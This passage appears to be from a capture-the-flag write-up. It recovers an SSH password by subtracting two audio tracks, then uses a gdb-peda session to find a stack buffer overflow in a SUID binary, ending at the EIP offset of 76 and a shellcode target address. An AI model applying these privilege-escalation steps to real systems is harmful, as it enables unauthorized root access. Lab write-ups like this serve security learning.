 `[-]` [LSB extraction](https://gist.github.com/reachsumit/583c76ffd740e1a952d65da3c676931f#file-audio-steganography-receiver-py) didn't work.

`[-]` Nothing in binwalk.

`[+]` rick.wav and recov.wav sounded like the same track, so I decided to [subtract one audio track from another](https://forum.audacityteam.org/viewtopic.php?t=74683).
Then I did "Tracks > Mix > Mix And Render To New Track" and removed other tracks.
As a result, I got a track (subtracted.wav), where the password is pronounced, but the speech is split in two and the parts are swapped.
Concatenated these two parts in correct order, cut off silence, exported (password.wav).

`[+]` SSH'd as **xalvas**.

`[+]` Found SUID binary "app/goodluck" and its partial source code "app/src.c".

`[+]` ASLR is disabled on machine (what a luck).

`[+]` NX: true. ROP-ROP.

`==============================`

```
gdb-peda$ break main
Breakpoint 1 at 0x80000d86

gdb-peda$ run
<...>

gdb-peda$ pattern_create 200 fuzz
Writing pattern of 200 chars to filename "fuzz"

gdb-peda$ jump debug

<...>
vulnerable pointer is at bffff600 <--- [!] Points to the buffer. We'll jump there to execute our shellcode (0xbffff600).
<...>
0xbfedf000 0xc0000000 rw-p	[stack] <--- [!] Stack area range

Filename:  fuzz

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x41413341 ('A3AA')
ECX: 0xb7fccbcc --> 0x21000 
EDX: 0x0 
ESI: 0xb7fcc000 --> 0x1b1db0 
EDI: 0xb7fcc000 --> 0x1b1db0 
EBP: 0x65414149 ('IAAe')
ESP: 0xbffff620 ("AJAAfAA5AAKAAgAA6AAL\211\343\a\001")
EIP: 0x41344141 ('AA4A')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)

<...>

gdb-peda$ pattern offset 'AA4A'
AA4A found at offset: 76
```
